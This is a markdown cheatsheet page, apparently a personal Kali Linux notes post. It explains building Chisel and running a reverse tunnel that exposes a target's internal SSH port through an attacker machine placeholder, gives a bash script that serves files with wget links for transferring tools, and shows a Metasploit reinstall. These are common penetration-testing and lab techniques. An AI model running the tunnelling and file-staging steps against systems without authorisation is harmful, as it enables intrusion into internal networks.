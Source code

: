 ```yaml
---
title: "Kali Tricks"
excerpt_separator: "<!--more-->"
author_profile: false
categories:
  - Linux
tags:
  - cheatsheet
  - kali
---
```



## Sections

### Kali
* [Tips and Tricks](#tips-and-tricks)
* [Install Apps Universally](#install-apps-universally)

### Kali app updates
* [Metasploit update](#metasploit)



## Tips and Tricks
### Chisel Quick guide

<details>
  <summary>Chisel Info - Click here</summary>
  
Chisel is a fast TCP/UDP tunnel, transported over HTTP, secured via SSH. Single executable including both client and server. Written in Go (golang). Chisel is mainly useful for passing through firewalls, though it can also be used to provide a secure endpoint into your network.

</details>

Install Chisel
* cd to /opt
```console
cd /opt
```
* clone the repo
```console
git clone https://github.com/jpillora/chisel.git
```
* cd to the cloned repo
```console
cd chisel
```
sync go vendor modules, seems to be needed to build for windows
```console
go mod vendor
```
build Linux binary:
```console
go build -ldflags "-s -w"
```
build Windows binary
```console
env GOOS=windows GOARCH=amd64 go build -o chisel-x64.exe -ldflags "-s -w"
```
  
Usage: [Chisel Github](https://github.com/jpillora/chisel)

(*upload chisel to the attacking machine)    

Use chisel to reverse connect back to the other hidden localhost port for ssh 22 using port 9001

```console
$ ./chisel server -p 9001 --reverse

$ ./chisel client 10.8.0.116:9001 R:127.0.0.1:9002:172.17.0.1:22
# ./chisel client YOUR-IP-HERE:9001 R:127.0.0.1:9002:ATTACKER-MACHINE-IP:22
```

### Install apps universally
To make an application or script avilable systemwide you usually copy them to /usr/local/bin

**Example:** If we want to get our IP address, List files and then start a python http server to server the files. 

1. Make a script (or get an App you want), I've called my script: pss.sh (python start server.sh)
Script Details:-
- Select IP if more then 1 interface (eth0, tun0)
- List files in directory with wget links and your current IP
- Shows all files in the current directory
```bash
#!/bin/bash

GN="\e[32m"
RES="\e[0m"
CYAN="\e[1;36m"

echo -e "\n$CYAN""Python FileServer$RES"
echo -e "Created By$GN Ac1d $RES\n"

HN="hostname -I"
res=$(eval $HN)
arrIN=(${res// / })
IP=""

if [ ${#arrIN[@]} -gt 1 ]; then
        PS3='Which Ip address, 1 or 2?: '
        options=("Option 1: ${arrIN[0]}" "Option 2: ${arrIN[1]}" "Quit")
        select opt in "${options[@]}"
        do
        case $opt in
                "Option 1: ${arrIN[0]}")
                        IP="${arrIN[0]}"
                        #echo "you chose choice 1"
                        break
                ;;

                "Option 2: ${arrIN[1]}")
                        IP="${arrIN[1]}"
                        #echo "you chose choice 2"
                        break
                ;;
                "Quit")
                break
                ;;
                *) echo "invalid option $REPLY";;
        esac
        done
else
       IP=$arrIN

fi
echo "IP: "$IP
echo -e "File links...\n"
for entry in `ls`;do
        if  [  ! -d $entry  ];then
                wgetCmd=$(echo "wget ${IP##*( )}/$entry" | xargs)
                echo -e "\t$GN$wgetCmd$RES"
        fi
done
echo -e "\nCurrent Directory Contents"
ls --color /
echo -e "\nStarting Server"
sudo python3 -m http.server 80  -d .

ls
sudo python3 -m http.server 80  -d .
```

2. Give it the correct file permissions. 
```bash
chmod +x pss.sh
```

3. Then copy the file/script to /usr/local/bin 
```bash
cp pss.sh /usr/local/bin
```

4. Call your file from anywhere 
```bash
pss.sh
```

5. Test your new tools and scripts out from any directory. 
![](/assets/images/pss.png)

Image for choice selection.
![](/assets/images/pss2.png)

## Kali app updates
### Metasploit
Remove old metasploit 
```console
sudo apt remove metasploit-framework -y
```
Install new version, Run 'msfconsole' after install
```console
sudo curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && chmod 755 msfinstall && ./msfinstall
```





